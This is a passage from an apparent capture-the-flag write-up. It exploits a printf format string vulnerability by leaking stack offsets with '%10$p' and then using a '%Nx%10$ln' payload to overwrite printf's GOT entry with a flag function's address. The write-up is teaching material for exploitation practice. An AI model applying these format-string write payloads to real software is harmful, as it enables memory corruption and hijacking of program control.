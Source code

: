 ```  
You don't have any money to buy 0x7f0000404040    @@@s. You're wasting your
time! We don't even sell 0x7f0000404040    @@@s. Leave this place and buy
0x7f0000404040    @@@ somewhere else. Get out!  
```  
I guess we overwritten some address in the stack

So we add 7 more spaces (16 - 5 + 4) , add 1 to the argument  
```python  
p.sendline('%10$p           '+p64(printf_address)[:3])  
```  
Yay! Finally get the correct address:  
```  
You don't have any money to buy 0x404040           @@@s. You're wasting your
time! We don't even sell 0x404040           @@@s. Leave this place and buy
0x404040           @@@ somewhere else. Get out!  
```  
Using `rjust(16)` or `ljust(16)` to add space to the input instead of typing
them:  
```python  
p.sendline('%10$p'.rjust(16)+p64(printf_address)[:3])  
```  
Its time for the real thing!

According to the man page of printf:  
```  
Conversion specifiers:  
...  
...  
...  
n       The  number  of  characters written so far is stored into the integer
pointed to by the corresponding argument.

BUGS:  
	Code such as printf(foo); often indicates a bug, since foo may contain a % character.  If  foo  comes  from  untrusted  user  
	input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

```  
if we execute `printf("hello world %n",some_address)`, it will print `hello
world ` and store 12 (number of printed characters) into `some_address`

Means we need to type number of characters in flag function address which is
alot and impossible

Because the buffer is only 60 characters:  
```c  
char item[60];  
```  
Using Format String we also can print alot of characters with spaces:  
```c  
print("%999i",1234);  
//output:  
//[999 of spaces]1234  
```  
Ok lets construct the payload:  
```python  
flag = elf.symbols['flag']                      # Get the function flag()
address  
flag = str(flag)                                        # Convert to string  
payload = '%' + flag + 'x%10$ln'        # Using ln because of 8 bytes address  
p.sendline(payload.rjust(16)+p64(printf_address)[:3])  
```  
Created a fake flag in current directory
